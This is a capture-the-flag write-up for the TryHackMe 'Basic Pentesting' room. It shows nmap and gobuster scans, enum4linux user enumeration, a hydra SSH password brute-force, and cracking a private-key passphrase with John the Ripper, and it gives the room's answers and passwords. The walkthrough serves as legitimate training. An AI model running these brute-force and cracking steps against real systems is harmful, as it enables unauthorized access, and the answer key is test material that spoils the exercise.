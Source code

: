
## THM  Basic Pentesting 
In this writeup Today we're going to try to Solve a room in THM called Basic Pentesting
[Basic Pentesting Room](https://tryhackme.com/room/basicpentestingjt)
**The First Task :**

 - **Deploy the machine and connect to our network**

 **Second Task :**  

 - **Scan The Machine Service**

 

 - open nmap

 $ nmap -sC -sV -oN Result.txt 10.10.26.87

 ```bash
Nmap scan report for 10.10.26.87
Host is up (0.077s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-02-22T06:26:54-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-02-22T10:26:54
|_  start_date: N/A
 ```

 - ports  : 22  -  139 - 445
 - Now we need to take a look on the source code in main page
   10.10.26.87
	
 - sorce code : ![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614046984/source_kimyp5.png)
 - Now we will use [gobuster](https://github.com/OJ/gobuster) to search 
   for directories with brute-force
   

       gobuster dir -u http://10.10.26.87/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
	```
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
	===============================================================
	[+] Url:            http://10.10.26.87
	[+] Threads:        40
	[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
	[+] Status codes:   200,204,301,302,307,401,403
	[+] User Agent:     gobuster/3.0.1
	[+] Timeout:        10s
	===============================================================
	2020/06/16 08:40:01 Starting gobuster
	===============================================================
	/development (Status: 301)
	```
	Now we go to [http://10.10.26.87/development/](http://10.10.26.87/development/)![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614047853/dev_bz7ebo.png)
	
	dev.txt:![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614048283/1_e5ukco.png)
	J.txt:![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614048378/j_xvyhf4.png)
	

## What is the username?

Now we will get user 
Try hack me give us a hint to get the user 
We have smbd open, that can give us a lot of information. We can use Enum4linux for that.

    enum4linux 10.10.26.87

![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614050311/Screenshot_2021-02-23_051756_ldpe6n.png)
after waiting for 5 minutes we get two user names

```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User) <=======

```
users pop up, **jan** a.k.a. J and **kay** a.k.a. K (دماغ شغالة مش بتنام)

## What is the password ?

we will brute-force password by hydra

    └─$ hydra -l jan -P wordlist.txt ssh://10.10.26.87
```bash
login: jan & password: armando
```

## What service do you use to access the server(answer in abbreviation in all caps)?
**answer : ssh**

## What is the name of the other user you found(all lower case)?
**answer : kay**
Unfortunately when we try to ssh using the key file we see the key requires a password.

```
jan@basic2:/home/kay/.ssh$ ssh -i id_rsa kay@127.0.0.1
Enter passphrase for key 'id_rsa':

```

But luckily we can cat out this file and crack the key with  [JohnTheRipper](https://github.com/gwagstaff/CTF-Write-Ups/blob/master/TryHackMe/Basic_Webapp/9)

Using  `ssh2john.py id_rsa > john_id_rsa.hash`  we get a john-crackable file that we can start here.  `john --wordlist=/usr/share/wordlists/rockyou.txt john_id_rsa.hash`

But it quickly finds the password for the key file

```
[REDACTED]         (kay_id_rsa)

```

Trying again with the ssh file we easily log in with the file password and get the pass.bak!

Since there isnt a flag for this we can only think about the possible information we could do. Using an additional user we could see if it was part of any groups in  `/etc/groups`  or have programs that you can sudo  `Check with sudo -l`  . It truly depends on what is configured on a machine, but running something like LinPeas.sh will give you a good starting point!

## What is the final password you obtain?

That contains our final flags!
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
